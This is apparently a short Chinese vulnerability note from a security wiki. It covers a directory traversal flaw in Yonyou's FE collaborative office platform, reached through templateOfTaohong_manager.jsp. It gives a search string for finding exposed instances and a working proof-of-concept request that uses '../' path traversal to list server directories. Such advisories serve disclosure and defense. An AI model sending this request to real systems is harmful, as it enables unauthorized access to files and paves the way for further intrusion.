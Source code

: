 # 用友 FE协作办公平台 templateOfTaohong_manager.jsp 目录遍历漏洞

## 漏洞描述

用友 FE协作办公平台 templateOfTaohong_manager.jsp文件存在目录遍历漏洞，通过漏洞攻击者可以获取目录文件等信息，导致进一步攻击

## 漏洞影响

<a-checkbox checked>用友 FE协作办公平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"FE协作"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1646059676433-1560cc0a-f228-4969-862e-6c1bca531f9b.png)

验证POC

```javascript
/system/mediafile/templateOfTaohong_manager.jsp?path=/../../../
```

![img](/assets/PeiQi-Wiki/img/1646059728922-422586b0-6e56-4752-832e-4f386629fd2e.png)